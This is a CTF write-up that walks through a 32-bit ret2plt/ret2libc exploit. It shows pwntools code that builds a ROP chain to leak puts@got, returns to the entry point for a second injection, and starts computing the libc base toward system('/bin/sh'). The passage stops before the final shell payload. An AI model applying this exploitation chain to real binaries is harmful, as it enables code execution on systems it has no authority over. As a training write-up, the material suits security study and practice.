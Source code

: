 ### Ret2Plt

This first step will give us the libc address, through the plt.got address.
To perform that, we use the most common used function for that, meaning puts@plt(puts@got).

As it's a 32bits binary, the rop-chain looks like :

- puts@plt
- pop_ret gadget
- puts@got

From that, the program will print (puts()) the puts@got address. So an address from the libc, loaded in memory, so the definitive address of the puts() function.

```py
payload += p32(elf.plt.puts)
payload += p32(rop.ebx.address)
payload += p32(elf.got.puts)
```
### Ret2Main

As the name, it's a return to main function, to allow us a second injection.
I learnt in another ctfs that it could better to not return to main, but to the binary entry point (variables initializations, all that...)
So :

- entrypoint

```py
payload += p32(elf.entrypoint)
```

From that, we already can inject this payload, and get the puts@libc leaked address :

```py
p.sendline(payload)
_ = p.recvuntil(b'baby name?\n')
leaks = p.recvline()
leak_puts = unpack(leaks[:4])
print("Leak puts @", hex(leak_puts))
```
```
Leak puts @ 0xf7de1460
```


### Ret2LibC

From the Ret2Plt payload, we get the puts() address, from the libc.
So, to compute the libc base address (which is required to perform the ret2libc, and then to get the `system('/bin/sh')` addresses), we'll use the famous [Blukat DB](https://libc.blukat.me/), which can be used in terminal ([https://github.com/niklasb/libc-database](https://github.com/niklasb/libc-database))

For sake of example, I'll use addresses and leak from my own machine, but they will be different on your own.
